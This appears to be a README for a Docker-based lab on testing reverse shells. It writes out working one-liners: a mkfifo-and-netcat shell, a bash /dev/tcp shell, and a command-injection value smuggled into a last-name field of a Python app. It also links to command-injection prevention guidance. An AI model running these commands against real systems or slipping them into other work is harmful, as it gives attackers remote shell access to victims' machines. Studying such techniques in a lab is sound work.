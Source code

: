 # Testing Reverse Shells

## Bash

This is a "sandbox" environment for playing around with reverse shells.
We will be using
[guthub.com/PayloadsAllTheThings/Methodology and Resources/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
as a reference guide throughout.

The [Makefile](./Makefile) has recipes for running 2 containers in their own
[docker networks](https://docs.docker.com/network/).

Once you've run your two containers, you can test the set-up by running the following one-liner
```
rm /tmp/cache.so3fk2; mkfifo /tmp/cache.so3fk2; cat /tmp/cache.so3fk2 | /bin/sh -i 2>&1 | nc <attacker IP> 4444 > /tmp/cache.so3fk2
```
on the "exploit" container.
To do so, run `make exploit-exec` and make sure to use the IP address of the attacker container.

For the above to do anything, you'll need to create a "server" on the attacker (this is a reverse shell after all)
```
nc -lvnp 4444
```

The former command relies on `mkfifo`:
> Once you have created a FIFO special file in this way, any process can open it for reading or writing,
> in the same way as an ordinary file. However, it has to be open at both ends simultaneously before you
> can proceed to do any input or output operations on it. Opening a FIFO for reading normally blocks
> until some other process opens the same FIFO for writing, and vice versa.
See [https://linux.die.net/man/3/mkfifo](https://linux.die.net/man/3/mkfifo).


---

## Bash: no nc

In the previous example, we had to install `netcat` into the victim machine.
If this is not applicable, then let's abuse some of the redirection features of `bash`.

Couple things to note, all from [Bash Reference Manual](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Redirections)

> If the file descriptor number is omitted, and the first character of the redirection
> operator is `<`, the redirection refers to the standard input (file descriptor 0).
> If the first character of the redirection operator is `>`, the redirection refers to
> the standard output (file descriptor 1).

Worth mentioning that `&>word` is equivalent to `>word 2>&1` - it redirects stdout and stderr.

> Bash handles several filenames specially when they are used in redirections...
> If the operating system on which Bash is running provides these special files, bash
> will use them; otherwise it will emulate them internally with the behavior described below.
>
> `/dev/tcp/host/port`
>   If host is a valid hostname or Internet address, and port is an integer port number or
>   service name, Bash attempts to open the corresponding TCP socket.
>
> `/dev/udp/host/port`
>   If host is a valid hostname or Internet address, and port is an integer port number or
>    service name, Bash attempts to open the corresponding UDP socket.

```
/bin/sh -i >& /dev/tcp/<attacker IP>/4444 0>&1
```

---

## Python

It is possible that every now and then someone will use some insecure Python feature.
Something less trivial however, is when people design Python apps that delegate to CLIs.
Take a look at the this interesting story from the SentinelOne people:
[Pwning Microsoft Azure Defender for IoT | Multiple Flaws Allow Remote Code Execution for All](https://www.sentinelone.com/labs/pwning-microsoft-azure-defender-for-iot-multiple-flaws-allow-remote-code-execution-for-all/)

If we use the `subprocess` call that is vulnerable to code injection, then sending a last name such as
```
Doe; bash -c "/bin/sh -i >& /dev/tcp/192.168.160.3/4444 0>&1"
```
will work.

In general,
[Command injection prevention for Python](https://semgrep.dev/docs/cheat-sheets/python-command-injection/)
has some good recommendations that will help you look for code injection vulnerabilities that may in turn
allow you to setup a rever-shell.

References
- [Digitalocean tutorials: how to make a web application using flask in python3](https://www.digitalocean.com/community/tutorials/how-to-make-a-web-application-using-flask-in-python-3)
- [Flask documentation: Uploading Files](https://flask.palletsprojects.com/en/2.1.x/patterns/fileuploads/)
- [Handling File Uploads With Flask](https://blog.miguelgrinberg.com/post/handling-file-uploads-with-flask)
